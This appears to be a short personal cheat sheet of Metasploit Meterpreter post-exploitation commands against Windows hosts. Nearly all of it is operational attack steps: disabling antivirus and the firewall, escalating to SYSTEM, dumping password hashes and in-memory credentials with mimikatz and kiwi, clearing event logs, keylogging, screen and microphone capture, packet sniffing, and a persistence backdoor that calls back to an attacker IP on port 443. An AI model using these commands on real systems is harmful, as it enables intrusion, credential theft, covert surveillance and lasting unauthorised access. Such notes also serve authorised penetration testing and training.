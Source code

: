 Meterpreter:

	help
	help -l (show librairies - used to increment features)

Informations:

	sysinfo (system details)
	getpid (pid of process used by meterpreter)
	ps (show process)
	getuid (show system and user)

	migrate pid (migrate process to explorer.exe)

Scripts:

	run checkvm (check if is virtual machine)
	run get_env (environment details)
	run get_applications_list (app list & versions)

	run scraper (run lot of scripts and save all on files) (use registry - danger for antivirus)
	cd /root/.msf4/logs/scripts/scraper/...

	run winenum (run lot of scripts and save all on files) (don't use registry - less danger for antivirus)

	run killav (check if antivirus from list of 50 and desactivate it)

Elevate privileges:

	getsystem

if already have system privilege, can migrate to another process with user privilege and get system privilege easily for this process.

	rev2self (comeback to anterior privileges)

Passwords:

	hashdump (get credentials hash of all users - need system privilege)

Librairies:

	use -l

	use mimikatz (search password on system memory)
	help
	wdigest (get list of passwords on memory)

	use kiwi (search password on system memory - modern version)
	help
	creds_all

Remove trace:

	clearrev (clear logs - system privileges)

Desactivate firewall:

	shell (system privileges)
	netsh firewall show opmode (on windows shell - check status of firewall)
	netsh firewall set opmode mode = disable profile = all (on windows shell - check status of firewall)
	exit

Keyloger:

	keyscan_start (need to be user who want to spy)
	keyscan_dump (results)
	keyscan_stop
	screenshot
	run vnc (remote access)
	record_mic 10 (record 10s)

Sniffer:

Network sniffer.

Librairies:

	use -l

	use sniffer
	sniffer_interfaces (show interfaces)
	sniffer_start 1 1024 (interface & buffer (when buffer is full the datas we'll be send))
	sniffer_stats 1 (status)
	sniffer_dump 1 file.pcap (send results to file)
	wireshark file.pcap (open file)
	sniffer_stop 1

Backdoor:

Easy backdoor implementation.

	run persistence -h (execute payload - program task)
	run persistence (configuration recommanded)

	run persistence -A -L C:\\temp\\ -x -i 15 -p 443 -r 10.1.1.12

	: Automatically start
	: localisation
	: Automatically start on boot
	: time in second to try connect to listener (recommanded to use bigger number)
	: port
	: Kali IP
	
keep information returning by the console to analyse - contain link to script (.rc) to remove persitence
	
resource URL (use link returning by console)